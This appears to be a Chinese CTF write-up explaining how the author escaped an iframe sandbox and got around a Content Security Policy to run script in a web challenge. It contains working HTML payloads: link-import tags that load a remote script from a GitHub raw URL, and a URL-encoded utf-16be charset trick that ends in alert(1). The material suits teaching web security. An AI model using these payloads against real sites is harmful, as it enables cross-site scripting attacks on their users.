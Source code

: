 首先将文件下到本地运行，加上各种代码打 log 看清楚程序流程与各个参数。

可以发现，程序的关键是通过监听了 fetch，对于网页中所有的网络请求进行了拦截定制，对于特定 URL，返回特定的内容。
同时，网页本身被设置了 `default-src: self`，意味着只能 include 本站的链接。
而程序实现了一个 sandbox，其实就是开启了一个 iframe，在 iframe 中设置了 `default-src: none; script-src *`，对于从 iframe 中发出的请求，实际上并不会发出，返回已经被固定，几乎等于是什么都做不了。
最后程序通过在 sandbox 中实际渲染，将违反规则的代码过滤掉后传递到沙盒外网页中渲染。

首先通过队友发现的 payload：

```html
<link rel="import" href='https://raw.githubusercontent.com/garzon/GitHubIOTest/gh-pages/payload' />
<link rel="import" href='https://raw.githubusercontent.com/garzon/GitHubIOTest/gh-pages/payload' />
<link rel="import" href='sandbox?html=%3cscript%20src=%22https://raw.githubusercontent.com/garzon/GitHubIOTest/gh-pages/payload%22%3e%3c/script%3e' />
```

我们可以成功将一个 link 标签逃出沙盒，即得到：

```html
<link rel="import" href='sandbox?html=%3cscript%20src=%22https://raw.githubusercontent.com/garzon/GitHubIOTest/gh-pages/payload%22%3e%3c/script%3e' />
```

那么这样实际上我们可以成功在外部页面中嵌入了 script 标签，但是由于 CSP 的限制，我们无法引用外部脚本，也无法 inline 脚本。此时最好的办法无疑就是在引用本站文件，将其作为 js 脚本解释执行。
但题目中已经说明，并没有其他页面，而我们所看到的页面中，页面内容能受我们控制的仅有 `/sandbox`。
不幸的是，`/sandbox` 页面的开头我们并不能控制，这对于当做 js 解释执行是致命的，因为一旦遇到错误这个脚本便会停止。

仔细思考，常见的方法是将一段字符串当做变量名，避免脚本不合法，但 `/sandbox` 页面开头包含太多不符合变量名规则的字符。
此时我们就需要 utf-16 这样一个奇葩的编码方式出场了，作为必须两个字符才能表示一个字符编码，utf-16 可以让大量字符变成合法的字符。
但尝试后会发现，`e ` 会被当做 `\u2065`，这一字符仍旧不在合法的 js 变量名字符中，会导致脚本产生 `Uncaught SyntaxError: Invalid or unexpected token` 的报错。
为了避免这一问题，我们可以使用 utf-16 的大端表示法，即 utf-16be 来使得语法合法。

其实我们可以发现，utf-16be 被 sanitize 函数特殊过滤了，或许是主办方的一个提示，绕过这一个过滤也很简单，一个 urlencode 即可。

于是最终一个 `alert` 的 exp 如下：

```html
<link rel="import" href='https://raw.githubusercontent.com/garzon/GitHubIOTest/gh-pages/payload' />
<link rel="import" href='https://raw.githubusercontent.com/garzon/GitHubIOTest/gh-pages/payload' />
<link rel="import" href='sandbox?html==%3Cscript%20charset%3D%22utf-1%36be%22%20src%3D%22sandbox%3Fhtml%3D%2500=%25001%2500;%2500a%2500l%2500e%2500r%2500t%2500%2528%25001%2500%2529%22%3E%3C/script%3E'/>
```
